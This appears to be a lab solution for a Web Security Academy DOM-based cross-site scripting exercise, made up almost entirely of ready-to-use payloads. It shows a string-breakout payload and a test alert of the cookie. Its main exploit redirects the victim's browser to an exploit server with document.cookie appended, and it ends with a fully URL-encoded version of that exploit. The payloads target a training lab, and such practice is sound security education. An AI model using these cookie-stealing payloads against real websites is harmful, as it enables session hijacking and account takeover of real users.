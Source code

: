 ## Check your session cookie:
```js
"-(window["document"]["location"]="/?"+window["document"]["cookie"])-"
```

## TEST Payload:
```js
burpdomxss","test":alert(window["document"]["cookie"])}//
```

## The Exploit before preparing:
```js
<script>
location='https://<CHANGE-HERE>.web-security-academy.net/?SearchTerm="-(window["document"]["location"]="https://exploit-<CHANGE-HERE>%2eexploit-server%2enet/?"+window["document"]["cookie"])-"';
</script>
```

## Before ENCODE the exploit by using BurpSuite Decoder:
```js
"-(window["document"]["location"]="https://exploit-0af4008003a936d2c1563c1001a30084%2eexploit-server%2enet/?"+window["document"]["cookie"])-"
```

## THE ACTUAL EXPLOIT:
```js
<script>
location='https://0a3200d2032c36d2c1163a22005f00df.web-security-academy.net/?SearchTerm=%22%2d%28%77%69%6e%64%6f%77%5b%22%64%6f%63%75%6d%65%6e%74%22%5d%5b%22%6c%6f%63%61%74%69%6f%6e%22%5d%3d%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%66%34%30%30%38%30%30%33%61%39%33%36%64%32%63%31%35%36%33%63%31%30%30%31%61%33%30%30%38%34%25%32%65%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%25%32%65%6e%65%74%2f%3f%22%2b%77%69%6e%64%6f%77%5b%22%64%6f%63%75%6d%65%6e%74%22%5d%5b%22%63%6f%6f%6b%69%65%22%5d%29%2d%22';
</script>
```
